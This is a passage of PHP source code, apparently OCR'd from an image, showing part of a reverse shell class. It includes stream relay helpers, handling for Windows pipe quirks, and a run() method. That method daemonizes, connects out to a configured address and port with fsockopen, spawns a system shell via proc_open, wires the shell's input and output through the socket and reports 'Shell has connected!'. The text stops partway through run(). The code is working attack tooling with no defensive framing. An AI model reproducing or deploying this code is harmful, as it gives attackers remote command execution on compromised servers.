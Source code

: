 ```
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
```
